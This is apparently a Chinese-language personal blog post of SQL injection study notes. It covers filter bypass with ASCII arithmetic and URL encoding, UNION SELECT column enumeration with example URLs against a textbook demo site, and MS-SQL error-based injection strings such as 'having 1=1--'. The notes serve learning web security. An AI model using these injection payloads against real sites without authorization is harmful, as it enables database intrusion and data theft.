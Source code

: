 ```yaml
---
layout: post
title:  SQL注入
categories: WEB安全
tags: SQL注入
author: Qclover
description: The read me page of clover.
---
```


## SQL注入

数字数据

绕过过滤：例如：表达式等于2

1.A的ASCII码值为65，则67-ASCII('A')

2. 1的ASCII值为49，则51-ASCII(1)

   **常用特殊符号编码绕过：**

   0x1:&和=注入时用于连接名称/值时，分别使用%26与%3d进行编码。

   0x2:由于+被用于编码空格，使用时必须使用%2b对其编码，1+1以1%2b提交

   0x3:/*!32303 and 1=0*/

   **注入点注入与手工 数据提取**

   0x1:确定所需的栏数，在注入查询中增加NULL值，直到查询被执行，不再返回错误信息。

   0x2:确定所需的栏数后，依次输入‘a’寻找字符串数据的栏.

   https://wahh-app.com/employees.asp?EmpNo=7521&20UNION&2OSELECT%20'a ' ,NULL,NULL,NULL&20from&20dual--

   https://wahh-app.com/employees.asp?EmpNo=7521&20UNION&2OSELECT%20NULL ' ,'a',NULL,NULL&20from&20dual--

   **数据获取技巧**

   ![1](D:\存储\文章\SQL 注入\1.png)

   **获取users表中的栏**

   ![2](D:\存储\文章\SQL 注入\2.png)

   MS-SQL的ODBCb=报错信息注入：

   0x1:发现ODBC报错出现在浏览器中，第一步：注入如下字符串

   ' having 1=1--得到错误项包含被查询表的名称

   0x2:下一步在攻击字符串中插入得到的栏名称，得到如下字符串：

   ' group by users.ID having 1=1--
